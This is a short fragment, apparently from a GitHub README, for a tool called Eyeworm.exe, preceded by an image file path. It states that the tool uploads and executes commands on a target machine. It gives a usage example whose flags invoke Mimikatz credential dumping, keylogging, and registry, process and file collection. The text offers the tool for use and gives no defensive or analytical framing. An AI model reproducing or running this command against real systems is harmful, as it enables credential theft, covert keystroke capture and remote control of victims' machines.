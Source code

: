Eyeworm.exe uploads and executes the corresponding command on the target machine
ex：`Eyeworm.exe -wfile -wcommand -wprocess -wregistry -wrecent -wmimikatz -keylog -redeye`

![commnd](img1.png)